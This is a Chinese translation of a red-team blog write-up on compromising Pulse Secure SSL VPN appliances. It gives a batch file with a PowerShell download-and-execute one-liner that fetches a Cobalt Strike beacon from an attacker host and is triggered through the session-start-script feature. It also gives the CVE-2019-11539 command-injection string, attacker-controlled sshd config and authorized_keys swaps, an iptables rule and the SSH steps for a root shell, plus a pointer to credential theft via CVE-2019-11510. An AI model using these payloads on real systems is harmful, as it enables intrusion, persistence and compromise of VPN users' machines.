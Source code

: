 # Red Teamer 的脉冲安全 SSL VPN 指南

> 原文：<https://infosecwriteups.com/pulse-secure-ssl-vpn-post-auth-rce-to-ssh-shell-2b497d35c35b?source=collection_archive---------0----------------------->

# 介绍

这篇文章是 Orange Tsai ( [orange_8361](https://twitter.com/orange_8361) )和 Meh Chang ( [mehqq_](https://twitter.com/mehqq_) )就攻击 Pulse Secure SSL VPN 所做的探索和深入研究中与各种黑客合作的集体成果。这项研究主要由艾丽莎·埃雷拉([艾丽莎·埃雷拉 _](https://twitter.com/Alyssa_Herrera_) )、贾斯汀·瓦格纳( [0xDezzy](https://twitter.com/0xDezzy) )和米伊美( [XMPPwocky](https://twitter.com/XMPPwocky) )进行。此外，我们还得到了 Rich Warren([buffaloverflow](https://twitter.com/buffaloverflow))的帮助，实现了漏洞利用的自动化。我们将专注于两个主题，主要是扩展 Orange Tsai 在客户端登录后的文件执行上演示的初始概念验证的功能，以及演示我们如何使用 CVE-2019–11539 获得具有 root 权限的 SSH shell。在后面的博客文章中，我将讨论米伊美和我如何能够为 CVE-2019–11510 创建一个概念证明，后来用于构建贾斯汀·瓦格纳创建的漏洞利用模块。

# **滥用登录脚本功能弹出外壳**

Pulse secure connect 包含允许管理员设置用户客户端的功能，以便在用户登录或注销其 VPN 实例时自动执行本地托管的文件。

此功能允许您设置要执行的脚本，这对于红队队员或恶意演员来说相当有吸引力。我们最初试图在执行 power-shell 或 cmd 时滥用这一功能来执行 args，尽管这没有成功。我们后来从[米伊美](https://twitter.com/XMPPwocky)那里得到了一个想法，尝试 UNC 路径来查询一个 SMB 服务器来执行攻击，这为我们解决了问题。

这是我们所做的，我们首先设置一个 SMB 服务器，这可以通过快速的 google 搜索来完成。然后我们将托管一个批处理文件，该文件将使用 power-shell 在目标上查询和执行我们的 shell，我们使用了一个 cobaltstrike 信标。

![](img/585f12a9baab19a261738dfe927e3a19.png)

批处理脚本的代码

我们用于批处理脚本的代码如下。

```
@echo off 
powershell.exe -nop -w hidden -c “IEX ((new-object net.webclient).downloadstring(‘http://your-ip/payload))”
```

![](img/ac11b5ea06f4f62af33eeec008f4172a.png)

设置钴罢工

现在，在我们的 pulse 安全实例上，我们将使用管理凭据登录。您可以通过利用 CVE-2019–11510 来获取包含会话 ID、明文凭据或您可以破解的哈希的文件。
然后，我们将导航至用户- >用户角色- > VPN 隧道- > Windows:会话启动脚本。

![](img/26707db2604cd57a5a3fd49730cb1919.png)

会话开始脚本端点

在这里，我们可以输入包含批处理文件的 SMB 服务器的 UNC 路径，该批处理文件将查询我们的 shell 并执行它。应该看起来像下面的图像

![](img/3d6a832517ba0cda7bbf154de82cee58.png)

修改了与我们的服务器的会话启动脚本

从这里，任何登录到受损 vpn 实例的用户都将执行我们的有效负载，并随后访问该用户的机器。我们还在视频演示中加入了屏幕截图

![](img/74d299662a1e64c21ba06d21d7fcfffb.png)

用户已登录

![](img/ccd004432b6cfa73feef04f4081b3c0d.png)

用户一登录就执行我们的 shell。

这种利用的视频演示

# 拥有脉冲安全连接 CVE-2019–11539 获得 SSH 根壳。

现在有趣的部分是，我们如何能够利用一个 post-auth 漏洞来获得一个具有 root 权限的 SSH shell。根据前半部分，我们已经提到获得一个未打补丁的脉冲授权并不难，所以我们将进入我们如何拥有这个盒子。

我们在研究过程中发现，我们拥有修改 ssh 密钥和 SSH 密钥配置以及 IP 表的权限，这将允许我们无缝地获得具有 root 访问权限的 SSH shell。

为了快速刷新，post-auth 命令注入要求我们提交以下命令

```
-r$x=”Our command”,system$x# 2>/data/runtime/tmp/tt/setcookie.thtml.ttc <
```

可以在维护->故障排除-> TCP 转储中找到。

![](img/04e77b4b0aa5d1b2a8873dd4fa4305fc.png)

我们命令的注入—单击开始嗅探提交

页面会给我们一个错误，但是命令被处理，然后我们会请求[https://your-server/Dana-na/auth/set cookie . CGI](https://your-server/dana-na/auth/setcookie.cgi)来执行命令。每次我们想对服务器执行查询时，我们都需要重复这个过程，否则我们的命令就不会被执行。

此升级旨在修改机器的 sshd 配置，并将我们自己的 ssh 密钥添加到系统中，从而授予在中进行 SSH 的能力。我们专门针对/中的授权密钥。ssh/和/etc/文件夹中的 cloud_sshd_config。Authorized keys 是允许 ssh 进入机器的密钥，而 config sshd 文件是 ssh 守护进程的配置文件。

现在，从这里开始执行后期开发以获得我们的 ssh shell 是相当简单的。首先，我们用 cp cloud_sshd_config 和。bak 扩展名，这样我们就可以备份原始文件。您应该创建一个如下所示的 sshd 配置文件。

```
Protocol 2
UsePrivilegeSeparation no
RSAAuthentication yes
PubkeyAuthentication yes
ClientAliveInterval 180
ListenAddress 0.0.0.0
```

在这之后，我们将把我们自己的 authorized_keys 以及前面描述的 sshd 配置文件保存到 tmp 文件夹中，因为我们已经备份了原始文件，所以现在可以安全地将我们自己的文件移动到服务器并覆盖它。从您自己的服务器上将其卷曲，然后将文件移动到目录中，这是最简单的方法，而不是通过命令注入来修改它。
在这里，我们请求修改 IPtables 来打开端口，这可以通过下面的命令来完成

```
iptables -A INPUT -p tcp — dport PORT -j ACCEPT
```

为了完成我们的更改，我们需要重新启动 sshd-ive 服务以使我们的修改生效。

```
kill -SIGHUP $(pgrep -f “sshd-ive
```

一旦这样做了，我们现在可以 ssh 到我们现在带壳的盒子。

```
ssh root@host -p6667
```

这将为我们提供一个根 ssh shell，无需进一步升级。如上所述，这需要花费一些时间来手动完成，因为每次我们想要启动一个命令时，我们需要发出两个请求。这可以很容易地编写脚本，我们准备了下面的演示来展示从简单的管理员访问 Pulse Secure SSL VPN 到获得服务器的 root 访问权限的能力。我们将额外发布我们的脚本来利用这一点，可以在[https://github.com/0xDezzy/CVE-2019-11539](https://github.com/0xDezzy/CVE-2019-11539)找到

使用 CVE 自动化后期开发-2019–11539

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)